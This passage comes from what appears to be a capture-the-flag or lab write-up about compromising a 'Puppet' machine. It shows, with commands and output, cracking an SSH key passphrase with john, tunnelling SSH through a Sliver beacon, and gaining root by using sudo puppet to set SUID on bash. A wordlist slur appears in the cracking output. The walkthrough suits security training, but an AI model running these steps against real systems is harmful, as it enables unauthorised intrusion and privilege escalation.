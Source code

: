 Inside .ssh folder, recovered a private key ed25519. Decrypted using john:
```Bash
➜  sliver john --wordlist=/usr/share/wordlists/rockyou.txt hash     
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:58 0.01% (ETA: 2025-05-29 23:28) 0g/s 26.00p/s 26.00c/s 26.00C/s nigger..mexico1
0g 0:00:00:59 0.01% (ETA: 2025-05-29 22:54) 0g/s 26.01p/s 26.01c/s 26.01C/s daisy1..blueberry
puppet           (ed25519)     
1g 0:00:05:12 DONE (2025-05-22 03:54) 0.003196g/s 26.23p/s 26.23c/s 26.23C/s total90..oscar123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The private key originally generated and formatted on a Windows system, used carriage return characters (CRLF), which must be converted to UNIX line endings to be compatible with OpenSSH on Linux. I used dos2unix to perform the conversion. Afterthat I set up a local port forward from the Sliver session to reach the target SSH service through the beacon.
```Bash
#Convert the private Key
➜  Puppet dos2unix ed25519                                                                    
dos2unix: converting file ed25519 to Unix format...

#Change permission
chmod 600 id_rsa

#Portforward
sliver (puppet-mtls) > portfwd add --bind 2222 -r 10.10.253.183:22
[*] Port forwarding 127.0.0.1:2222 -> 10.10.253.183:22

#SSH using the private key
ssh -i id_rsa -t 'svc_puppet_lin_t1@puppet.vl'@127.0.0.1 -p 2222
```

User lin_t1 can run puppet service with sudo. 
```Bash
sudo -l
Matching Defaults entries for svc_puppet_lin_t1@puppet.vl on puppet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc_puppet_lin_t1@puppet.vl may run the following commands on puppet:
    (ALL) NOPASSWD: /usr/bin/puppet
```

We can make the execute commands using puppet and bash SUID to get root access. [GTFObins](https://gtfobins.github.io/gtfobins/puppet/) have a nice article about this
```Bash
sudo puppet apply -e "exec { '/bin/sh -c \"chmod u+s /bin/bash\"': }"

bash -p
bash-5.1# id
uid=451001132(svc_puppet_lin_t1@puppet.vl) gid=451000513(domain users@puppet.vl) euid=0(root) groups=451000513(domain users@puppet.vl),451001133(admins_t1@puppet.vl)
```
# Compromising the Domain Controller
With root shell, I dumped all Puppet certificates.
```Bash
bash-5.1# sudo puppet cert list --all
Warning: `puppet cert` is deprecated and will be removed in a future release.
   (location: /usr/lib/ruby/vendor_ruby/puppet/application.rb:370:in `run')
```